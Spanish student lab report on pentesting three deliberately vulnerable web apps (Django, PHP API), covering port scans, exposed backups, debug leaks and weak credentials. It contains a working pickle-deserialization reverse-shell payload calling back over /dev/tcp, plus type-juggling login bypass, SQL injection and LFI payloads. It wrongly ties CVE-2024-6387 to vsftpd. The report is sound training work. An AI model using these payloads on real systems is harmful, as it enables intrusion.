




# Informe de Práctica 1: Análisis de Vulnerabilidades en Entorno Web

---

**Universidad UNIE**  
**Seguridad Informática y Ciberseguridad en la Empresa**  
**Curso 2025/2026**

---

## Integrantes del Grupo

- **Alejandro Gonzalo Millón**
- **Daniel Relloso Orcajo**
- **Daniel Willson Pastor**

**Fecha de entrega:** 4 de diciembre de 2025

---

## Introducción

Nuestra misión ha sido emular las tácticas de un atacante real, aplicando metodologías estructuradas de pentesting para descubrir y explotar vulnerabilidades en tres aplicaciones web independientes (App1, App2 y App3). Cada aplicación, desarrollada con diferentes tecnologías y arquitecturas, presentaba su propio conjunto de debilidades, algunas evidentes y otras ocultas tras capas de código aparentemente seguro.

Hemos seguido una metodología en fases, comenzando con el reconocimiento pasivo y activo del objetivo, identificando servicios expuestos, puertos abiertos y tecnologías subyacentes. Posteriormente, hemos realizado una enumeración exhaustiva de cada aplicación, buscando vectores de ataque como:

- **Exposición de información sensible:** Código fuente, credenciales, esquemas de base de datos...
- **Vulnerabilidades de inyección:** SQL, SSTI, RCE, comandos...
- **Fallos de autenticación y autorización:** Accesos no controlados, bypass de login...
- **Errores de configuración:** Debug activado, backups accesibles públicamente...

Para cada vulnerabilidad identificada, hemos documentado no solo su explotación técnica, sino también el impacto potencial en un entorno real. De las mitigaciones nos centraremos en la siguiente práctica.

---

## Índice de Vulnerabilidades Encontradas

| Vulnerabilidad | Ubicación | Riesgo | Descripción |
|----------------|-----------|--------|-------------|
| Exposición de backups | Puerto 9001 | Crítico | Listado de directorios habilitado con acceso a código fuente |
| Tráfico sin cifrar (HTTP) | Todas las apps | Medio | Comunicaciones sin HTTPS, vulnerable a interceptación |
| Debug mode activado | App1 | Alto | DEBUG=True expone información sensible del sistema |
| Configuración insegura de cookies | App1, App3 | Medio | Falta HttpOnly, Secure y SameSite correctamente configurados |
| Session timeout inadecuado | App1, App2, App3 | Medio | Sesiones con caducidad excesiva o permanente |
| Contraseñas débiles | App1 | Alto | Credenciales predeterminadas (admin/admin) |
| Acceso al panel de administración | App1 | Alto | Panel admin accesible sin restricciones adicionales |
| Upload sin validación | App1 | Crítico | Permite subir cualquier tipo de archivo (malware upload) |
| RCE via Python Pickle | App1 | Crítico | Deserialización insegura permite ejecución remota de código |
| Credenciales en texto plano (BD) | App1, App2, App3 | Crítico | Contraseñas sin cifrar en base de datos |
| Exposición de esquema SQL | App2 | Alto | Archivo database.sql accesible públicamente |
| PHP Type Juggling | App2 | Alto | Comparación débil permite bypass de autenticación |
| Local File Inclusion (LFI) | App2 | Alto | Permite acceso a archivos del sistema |
| SQL Injection | App2, App3 | Crítico | Consultas SQL sin parametrizar |
| Ausencia de cookies de sesión | App2 | Medio | Sin mecanismos alternativos seguros implementados |
| Falta de cabeceras de seguridad | App2 | Medio | X-Content-Type-Options y X-Frame-Options ausentes |
| SSTI (Server-Side Template Injection) | App3 | Crítico | Inyección de plantillas permite RCE |
| Session Fixation | App3 | Medio | Cookies con valores predeterminados |
| CSRF habilitado | App3 | Medio | CSRF_ENABLED=True en configuración |
| Secret Key expuesta | Todas las apps | Alto | Claves secretas visibles en código |
| Buffer Overflow + Format String | Puerto 5555 (App5) | Alto | Vulnerabilidad en binario C |
| Permisos sudo mal configurados | Sistema | Crítico | Usuario con privilegios totales (ALL:ALL) |
| Permisos SQL excesivos | Sistema | Crítico | Usuario puede ejecutar comandos del sistema vía MySQL |

---

## Fase 1: Reconocimiento y Enumeración

### Escaneo TCP

**Comando Ejecutado:**

```bash
nmap 192.168.88.128
```

**Resultados Obtenidos:**


### Análisis Detallado por Puerto

#### Puerto 21/tcp - FTP (vsftpd)

```text
21/tcp    open   ftp     vsftpd (broken: both local and anonymous access disabled!)
```

**Observaciones:**

- Servidor: vsftpd (Very Secure FTP Daemon)
- Estado: Acceso anónimo deshabilitado según el escaneo
- Conclusión: No podemos acceder sin credenciales válidas. Posible vector si encontramos credenciales en otro lugar.
- Esta versión se puede explotar con **CVE-2024-6387**

#### Puerto 22/tcp - SSH

```text
22/tcp    open   ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a1:a0:86:5d:7c:7f:4e:f4:ab:ca:90:0d:49:89:e4:7c (ECDSA)
|_  256 30:c4:82:38:86:3e:08:3e:87:5c:a8:08:f6:8d:fe:e1 (ED25519)
```

**Observaciones:**

- Versión: OpenSSH 9.6p1 (actual, sin vulnerabilidades críticas conocidas)
- Sistema: Ubuntu 3ubuntu13.11
- Conclusión: SSH normalmente es difícil de vulnerar directamente. Requeriría credenciales válidas o una vulnerabilidad específica en esta versión.

#### Puerto 80/tcp - HTTP

```text
80/tcp    open   http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

**Observaciones:**

- Servidor: Apache 2.4.58 en Ubuntu
- Conclusión: Puerto principal para aplicaciones web. Posibles vectores:
  - Aplicaciones vulnerables (App1, App2, App3)
  - Configuraciones incorrectas
  - Vulnerabilidades en Apache

#### Puerto 3306/tcp - MySQL/MariaDB

```text
3306/tcp  open   mysql   MariaDB 10.3.23 or earlier (unauthorized)
```

**Observaciones:**

- Base de datos: MariaDB 10.3.23 o anterior
- Estado: "unauthorized" - acceso denegado sin credenciales
- Conclusión: Potencial para:
  - Inyección SQL si las apps tienen vulnerabilidades
  - Acceso directo si encontramos credenciales
  - Enumeración si la configuración lo permite

#### Puerto 5555/tcp - Freeciv

```text
5555/tcp open  freeciv
```

**Observaciones:**

- Servicio: Freeciv (juego de estrategia)
- Conclusión: Posible vector si:
  - Hay vulnerabilidades en el servicio
  - Se usa para algo diferente a Freeciv (servicio mal etiquetado)

#### Puerto 9001/tcp - HTTP (SimpleHTTPServer)

```text
9001/tcp  open   http    SimpleHTTPServer 0.6 (Python 3.13.0)
|_http-server-header: SimpleHTTP/0.6 Python/3.13.0
|_http-title: Directory listing for /
```

**Observaciones CRÍTICAS:**

- Servidor: SimpleHTTPServer de Python 3.13.0
- **LISTADO DE DIRECTORIOS HABILITADO** - ¡Grave error de configuración!
- Conclusión: Posible exposición de archivos sensibles. Primer vector de ataque importante.

### Escaneo UDP

**Comando ejecutado:**

```bash
nmap -sU 192.168.88.128
```


Se detectó un puerto filtrado en el 5353.

### Resumen de Hallazgos Iniciales

#### Riesgos Identificados:

| Puerto | Servicio | Riesgo | Acción Recomendada |
|--------|----------|--------|-------------------|
| 21 | FTP | Medio | Buscar credenciales en otros vectores |
| 22 | SSH | Bajo | Último recurso, difícil de explotar |
| 80 | HTTP | ALTO | Principal vector - 3 aplicaciones web |
| 3306 | MariaDB | Medio-Alto | Depende de vulnerabilidades en apps |
| 5555 | Freeciv | Bajo | Investigar si es realmente Freeciv |
| 9001 | HTTP | CRÍTICO | Listado directorios - posible filtración |

#### Plan de Ataque Inicial:

1. **Primer objetivo:** Puerto 9001 - Investigar listado de directorios
2. **Segundo objetivo:** Puerto 80 - Enumerar aplicaciones web
3. **Tercer objetivo:** Buscar conexiones entre servicios
4. **Cuarto objetivo:** Credenciales para servicios restringidos

### Conclusiones Tácticas

- El servidor está relativamente bien cerrado - solo puertos esenciales abiertos
- El error de configuración en el puerto 9001 es nuestra puerta de entrada principal
- La presencia de MariaDB sugiere que las aplicaciones usan bases de datos → posible SQL injection
- Tres aplicaciones web distintas en el puerto 80 sugieren arquitectura modular con posibles fallos en cada una

---

## Vulnerabilidades Identificadas

### Puerto 9001: Exposición Crítica de Información

#### Descripción General

Al acceder a `http://192.168.207.130:9001/` observamos inmediatamente que el servidor SimpleHTTPServer tiene habilitado el listado de directorios sin ningún tipo de autenticación o restricción. Esta configuración expone los siguientes archivos críticos:

- `backup_app1.tar.gz`
- `backup_app2.tar.gz`
- `backup_app3.tar.gz`


#### Impacto

Esta vulnerabilidad es extremadamente crítica porque:

1. **Exposición total del código fuente:** Los archivos de backup contienen el código completo de las tres aplicaciones, incluyendo lógica de negocio, configuraciones y credenciales.

2. **Sin autenticación:** Cualquier persona con acceso de red puede descargar estos archivos sin necesidad de credenciales.

3. **Comunicación sin cifrar:** El servidor opera sobre HTTP (no HTTPS), lo que significa que toda la comunicación puede ser interceptada mediante ataques Man-in-the-Middle.

4. **Facilita ataques posteriores:** Con acceso al código fuente, un atacante puede:
   - Identificar vulnerabilidades específicas sin necesidad de fuzzing
   - Obtener credenciales hardcodeadas
   - Comprender la arquitectura completa del sistema
   - Planificar ataques dirigidos con mayor precisión

#### Recomendaciones

- Deshabilitar el listado de directorios en servidores web de producción
- Nunca exponer archivos de backup en servicios accesibles públicamente
- Implementar autenticación robusta para acceso a archivos sensibles
- Utilizar HTTPS para todas las comunicaciones
- Almacenar backups en ubicaciones seguras con acceso restringido

---

## Aplicación 1 (App1) - Django

### 1. Debug Mode Activado

#### Descripción

Al intentar realizar login en `http://app1.unie/users/login/`, la aplicación muestra un error detallado que revela información extremadamente sensible del sistema. Esto se debe a que la variable `DEBUG = True` está activada en la configuración de Django.

#### Información Expuesta

El error muestra datos críticos como:

```python
databases:
{'default': {'ATOMIC_REQUESTS': True,
             'AUTOCOMMIT': True,
             'CONN_HEALTH_CHECKS': False,
             'CONN_MAX_AGE': 0,
             'ENGINE': 'django.db.backends.mysql',
             'HOST': 'localhost',
             'NAME': 'app1_database',
             'OPTIONS': {},
             'PASSWORD': '********************',
             'PORT': '',
             'TEST': {'CHARSET': None,
                      'COLLATION': None,
                      'MIGRATE': True,
                      'MIRROR': None,
                      'NAME': None},
             'TIME_ZONE': None,
             'USER': 'app1_user'}}
```

Además de:
- Rutas completas del sistema de archivos
- Variables de entorno
- Estructura de la aplicación
- Consultas SQL ejecutadas
- Stack traces completos

#### Impacto

Con el modo debug activo, un atacante obtiene:
- Nombres de usuario de base de datos
- Estructura de la base de datos
- Rutas del servidor
- Versiones de librerías utilizadas
- Información para planificar ataques más sofisticados

### 2. Configuración Insegura de Cookies

#### Descripción

Mediante la inspección de las cookies de sesión en las herramientas de desarrollo del navegador, identificamos múltiples problemas en su configuración:

#### Problemas Detectados:

1. **Ausencia de flag HttpOnly:** Las cookies son accesibles desde JavaScript, lo que las hace vulnerables a ataques XSS. Un atacante podría robar la sesión mediante scripts maliciosos.

2. **Ausencia de flag Secure:** Las cookies se transmiten sobre HTTP sin cifrar, permitiendo su captura en ataques de interceptación de tráfico.

3. **Configuración incorrecta de SameSite:** Sin protección adecuada contra CSRF, las cookies pueden ser enviadas en peticiones cross-site.

4. **Caducidad excesiva:** Las cookies expiran el 22 de diciembre de 2025, proporcionando una ventana de tiempo muy amplia para su explotación.

#### Impacto

- Robo de sesiones mediante XSS
- Ataques de Man-in-the-Middle para interceptar cookies
- CSRF facilitado por configuración inadecuada
- Sesiones permanentes que no expiran apropiadamente

### 3. Session Timeout Inadecuado

#### Descripción

Las sesiones en App1 nunca expiran automáticamente, lo que significa que las cookies de sesión permanecen válidas indefinidamente. Esto se evidencia al revisar la configuración de la aplicación donde no existe un timeout configurado.

#### Impacto

- Las sesiones robadas permanecen válidas indefinidamente
- Mayor ventana de tiempo para ataques de session hijacking
- Sesiones abandonadas en equipos compartidos permanecen activas

### 4. Contraseñas Débiles y Predeterminadas

#### Descripción

Durante el análisis del panel de administración accesible en `http://app1.unie/admin/`, implementamos un script de fuerza bruta (`bruteforce.py`) utilizando la wordlist `rockyou.txt`. A pesar de la protección CSRF, logramos identificar que las credenciales de administrador son:

- **Usuario:** admin
- **Contraseña:** admin


#### Impacto

Las credenciales predeterminadas permiten:
- Acceso total al panel de administración
- Gestión de usuarios y permisos
- Acceso a toda la información almacenada
- Modificación de configuraciones críticas

### 5. Panel de Administración Accesible

#### Descripción

El panel de Django admin es accesible públicamente simplemente añadiendo `/admin` a la URL base de la aplicación. No existe ninguna restricción adicional como autenticación multifactor, limitación por IP, o captcha después de múltiples intentos fallidos.

#### Impacto

- Superficie de ataque ampliada
- Facilita ataques de fuerza bruta
- No hay rate limiting implementado
- Acceso privilegiado sin controles adicionales

### 6. Upload sin Validación (Malware Upload)

#### Descripción

En la sección Gallery View de la aplicación, el sistema permite subir archivos sin realizar ningún tipo de validación sobre:
- Extensión del archivo
- Tipo MIME real del contenido
- Tamaño del archivo
- Contenido malicioso

#### Explotación

Un atacante puede:
1. Subir un archivo con extensión `.png` pero que contenga código PHP malicioso
2. Subir ejecutables renombrados con extensiones de imagen
3. Subir web shells disfrazadas como imágenes

#### Impacto

- Ejecución de código arbitrario en el servidor
- Instalación de backdoors permanentes
- Compromiso total del sistema
- Propagación de malware (virus, ransomware, spyware)

### 7. Error EOFError en Gallery View

#### Descripción

Al intentar acceder a la sección de perfil desde Gallery View, la aplicación genera un error de tipo `EOFError`. Este error sugiere un problema en el manejo de datos serializados o en la comunicación entre componentes.

#### Impacto

- Posible vector de Denial of Service
- Revelación de información sobre la arquitectura interna
- Indica problemas en el manejo de excepciones

### 8. RCE via Python Pickle (Crítico)

#### Descripción

En el archivo `/var/www/html/app1/users/views.py`, línea 84, dentro de la clase `ProfileView`, encontramos el uso inseguro de `pickle.loads()` para deserializar datos del usuario sin validación previa.


#### Explotación Paso a Paso

**1. Obtener CSRF token inicial:**

```bash
curl -c cookies.txt http://app1.unie/users/login/ -s > login.html

CSRF1=$(grep -o "csrfmiddlewaretoken.*value='[^']*'" login.html | sed "s/.*value='//;s/'//")
[ -z "$CSRF1" ] && CSRF1=$(grep -o 'csrfmiddlewaretoken.*value="[^"]*"' login.html | sed 's/.*value="//;s/"//')
```

**2. Iniciar sesión:**

```bash
curl -b cookies.txt -c cookies.txt -v \
  -d "username=alejandro&password=1234&csrfmiddlewaretoken=$CSRF1&next=/users/profile/" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://app1.unie/users/login/" \
  http://app1.unie/users/login/ 2>&1 | grep -i "set-cookie\|location\|http"
```

**3. Extraer CSRF del perfil:**

```bash
curl -b cookies.txt http://app1.unie/ -s > home_autenticado.html

LINEA=$(grep -n "action=\"/users/profile/\"" home_autenticado.html | cut -d: -f1)
PROFILE_CSRF=$(cat home_autenticado.html | tr '>' '\n' | grep "csrfmiddlewaretoken" | sed 's/.*value="//' | sed 's/".*//')
```



**4. Configurar listener:**

```bash
ncat -nlvp 4444
```

**5. Enviar payload malicioso:**

```bash
REVERSE_PAYLOAD=$(python3 << 'EOF'
import pickle, base64

class RCE:
    def __reduce__(self):
        import os
        cmd = "bash -c 'bash -i >& /dev/tcp/192.168.207.1/4444 0>&1' &"
        return os.system, (cmd,)

print(base64.b64encode(pickle.dumps(RCE())).decode())
EOF
)

curl -b cookies.txt -X POST \
  -d "usernameSlug=$REVERSE_PAYLOAD&csrfmiddlewaretoken=$PROFILE_CSRF" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Referer: http://app1.unie/" \
  http://app1.unie/users/profile/ -s > /dev/null
```


#### Impacto

- **Ejecución remota de código** con los privilegios de la aplicación web
- Acceso completo al sistema de archivos
- Capacidad de escalar privilegios
- Instalación de backdoors permanentes
- Exfiltración de datos sensibles

### 9. Credenciales en Texto Plano (Base de Datos)

#### Descripción

Accediendo a la base de datos mediante SSH al servidor (`ssh user@192.168.207.130`) y luego conectando a MySQL, descubrimos que:

```sql
USE app1_database;
SHOW TABLES;
SELECT * FROM users_person;
```

Las contraseñas de usuarios regulares están cifradas mediante hash (buena práctica), sin embargo:

1. **Email en texto claro:** Los correos electrónicos de usuarios, incluyendo el administrador, están visibles sin cifrar, lo que los expone a:
   - Campañas de phishing dirigidas
   - Spam
   - Ingeniería social

2. **Usuario privilegiado de MariaDB:** Existe un usuario con privilegios elevados en la base de datos, que si es comprometido, permite:
   - Acceso total a todos los datos
   - Modificación de registros
   - Ejecución de comandos del sistema (si está mal configurado)

#### Impacto

- Extracción de información de usuarios
- Posibilidad de phishing dirigido
- Compromiso total de la base de datos si se accede al usuario privilegiado

### 10. Tráfico sin Cifrar (HTTP)

#### Descripción

La aplicación no implementa HTTPS, operando completamente sobre HTTP. Esto significa que toda la comunicación entre el cliente y el servidor viaja en texto plano.

#### Impacto

- Interceptación de credenciales durante el login
- Robo de cookies de sesión
- Ataques Man-in-the-Middle
- Posibilidad de modificar el tráfico en tránsito
- No hay verificación de la legitimidad del servidor

---

## Aplicación 2 (App2) - PHP/API

### 1. Exposición del Esquema de Base de Datos

#### Descripción

Dentro del backup `backup_app2.tar.gz` descargado del puerto 9001, encontramos el archivo `database.sql` que contiene la estructura completa de la base de datos:

```bash
wget http://192.168.88.131:9001/backup_app2.tar.gz
tar -xzf backup_app2.tar.gz
find . -name "database.sql"
cat ./var/www/html/app2/database.sql
```

El esquema revela:

```sql
CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL UNIQUE,
    email VARCHAR(100) NOT NULL UNIQUE,
    passwd VARCHAR(255) NOT NULL
);

CREATE TABLE books (
    id INT AUTO_INCREMENT PRIMARY KEY,
    title VARCHAR(200) NOT NULL,
    author VARCHAR(100) NOT NULL,
    user_id INT,
    FOREIGN KEY (user_id) REFERENCES users(id)
);
```

#### Impacto

Conocer el esquema exacto permite:
- Construir ataques de SQL Injection sin necesidad de enumerar tablas/columnas
- Saber que la columna de contraseña se llama `passwd` (no `password` o `pwd`)
- Comprender las relaciones entre entidades
- Optimizar ataques con payloads específicos como:

```sql
' UNION SELECT id, username, email, passwd FROM users--
```

### 2. PHP Type Juggling

#### Descripción

Revisando el código en `var/www/html/app2/UserService.php`, identificamos que el sistema utiliza comparación débil (`==`) en lugar de comparación estricta (`===`) para validar credenciales.



#### Explotación

**Petición normal correcta:**

```bash
curl -X POST http://app2.unie/v2/users/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@app2.unie","password":"correctPassword"}'
```



**Bypass mediante Type Juggling:**

```bash
curl -X POST http://app2.unie/v2/users/login \
  -H "Content-Type: application/json" \
  -d '{"email":"admin@app2.unie","password":true}'
```



Enviando `true` como contraseña, PHP convierte ambos valores a booleanos durante la comparación débil, resultando en una validación exitosa sin conocer la contraseña real.

#### Impacto

- Bypass completo de autenticación
- Acceso a cualquier cuenta sin conocer la contraseña
- Compromiso de todas las cuentas del sistema

### 3. SQL Injection

#### Descripción

En el archivo `Book.php` identificamos que las consultas SQL no están parametrizadas correctamente. Los valores proporcionados por el usuario se concatenan directamente en la query sin validación ni escape.

#### Código Vulnerable

```php
$query = "SELECT * FROM books WHERE user_id = " . $_GET['user_id'];
```

#### Impacto

Un atacante puede:
- Extraer toda la información de la base de datos
- Modificar o eliminar registros
- En casos extremos, ejecutar comandos del sistema si MySQL tiene permisos excesivos
- Bypassear autenticación mediante payloads como: `1 OR 1=1--`

### 4. Local File Inclusion (LFI)

#### Descripción

En `index.php` encontramos que se incluyen archivos dinámicamente sin validación adecuada:

```php
include($_GET['page']);
```

El código solo verifica que el archivo exista, pero no valida que sea un archivo legítimo de la aplicación.

#### Explotación

```bash
http://app2.unie/index.php?page=../../../../etc/passwd
http://app2.unie/index.php?page=database.sql
```

#### Impacto

- Lectura de archivos sensibles del sistema
- Exposición de configuraciones
- Posible escalada a RCE si se combina con upload de archivos
- Exfiltración de información confidencial

### 5. Descarga No Autorizada de Archivos

#### Descripción

Los archivos de la aplicación, incluyendo `database.sql`, pueden descargarse directamente desde el navegador sin autenticación:

```
http://app2.unie/database.sql
```

Esto descarga el archivo directamente a la carpeta de descargas del navegador.

#### Impacto

- Exposición del esquema completo de la base de datos
- Revelación de la estructura de la aplicación
- Facilita otros ataques como SQL Injection

### 6. Ausencia de Cookies de Sesión

#### Descripción

A diferencia de App1 y App3, App2 no utiliza cookies tradicionales para gestionar sesiones. No se encontró evidencia de implementación de mecanismos alternativos seguros como:
- Tokens JWT
- Session storage
- Otros sistemas de autenticación stateless

#### Impacto

Si bien no usar cookies no es inherentemente inseguro, la ausencia de cualquier mecanismo visible de gestión de sesión sugiere:
- Posible falta de control de sesiones
- Dificultad para invalidar sesiones comprometidas
- Sin protección contra session fixation

### 7. Falta de Cabeceras de Seguridad

#### Descripción

Al inspeccionar las respuestas HTTP de App2, notamos la ausencia de cabeceras de seguridad críticas:

**X-Content-Type-Options:** Sin esta cabecera configurada como `nosniff`, el navegador puede interpretar incorrectamente el tipo de contenido, facilitando ataques de ejecución de scripts maliciosos.

**X-Frame-Options:** Su ausencia permite que la aplicación sea cargada en iframes, facilitando ataques de Clickjacking donde un atacante puede engañar a usuarios para que hagan clic en elementos invisibles.

#### Impacto

- Vulnerabilidad a ataques de Clickjacking
- Posibles ataques basados en confusión de tipos MIME
- Falta de defensa en profundidad

### 8. Session Timeout Inadecuado

#### Descripción

En las cabeceras HTTP se observa:

```
Connection: Keep-Alive
```

Esto indica que las conexiones permanecen activas indefinidamente, sin un timeout apropiado.

#### Impacto

- Sesiones que no expiran automáticamente
- Mayor ventana para explotación de sesiones robadas
- Consumo innecesario de recursos del servidor

### 9. Credenciales en Texto Plano (Base de Datos)

#### Descripción

Similar a App1, pero en este caso las credenciales de App2 están almacenadas completamente sin cifrar en la base de datos. Esto incluye:
- Contraseñas de usuarios
- Nombres de usuario
- Correos electrónicos

#### Impacto

- Ante una brecha de seguridad, todas las credenciales son expuestas inmediatamente
- No hay protección adicional si la base de datos es comprometida
- Usuarios no son notificados del riesgo real
- Posibilidad de credential stuffing en otros servicios si los usuarios reutilizan contraseñas

### 10. Tráfico sin Cifrar (HTTP)

#### Descripción

Al igual que App1, App2 no implementa HTTPS, operando completamente sobre HTTP sin cifrado.

#### Impacto

- Interceptación de credenciales durante login
- Robo de tokens de sesión
- Ataques Man-in-the-Middle
- No hay certificado que verifique la legitimidad del servidor

---

## Aplicación 3 
